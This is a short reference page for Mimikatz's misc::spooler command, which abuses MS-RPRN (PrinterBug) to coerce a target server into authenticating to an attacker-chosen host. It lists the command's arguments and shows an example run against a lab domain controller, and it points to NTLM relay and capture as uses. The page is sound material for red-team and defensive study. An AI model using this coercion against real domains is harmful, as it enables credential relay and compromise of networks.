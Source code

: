 # spooler

`misc::spooler` is Mimikat's implementation of the [MS-RPRN abuse (PrinterBug)](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn), an authentication coercion technique. It has the following command line arguments:

* `/authuser`: the [User Principal Name (UPN)](https://kb.iu.edu/d/atzp). By default it uses the current user's token
* `/authpassword`: the password of the user
* `/noauth`: use null session
* `/endpoint`: the RPC endpoint. By default is uses `\pipe\spoolss`
* `/server` or `/target`: the target server
* `/connect` or `/callback`: the remote host the target should connect to (attacker host)

```
mimikatz # misc::spooler /connect:win2019.hacklab.local /server:dc.hacklab.local
[auth ] Default (current)
[ rpc ] Endpoint: \pipe\spoolss
[trans] Disconnect eventual IPC: OK
[trans] Connect to IPC: OK
[ rpc ] Resolve Endpoint: OK

Access is denied (can be OK)

[trans] Disconnect IPC: OK
```

For more information on how to exploit this, see The Hacker Recipes. It can be used to NTLM relay attacks, NTLM capture, etc.

{% embed url="https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn" %}
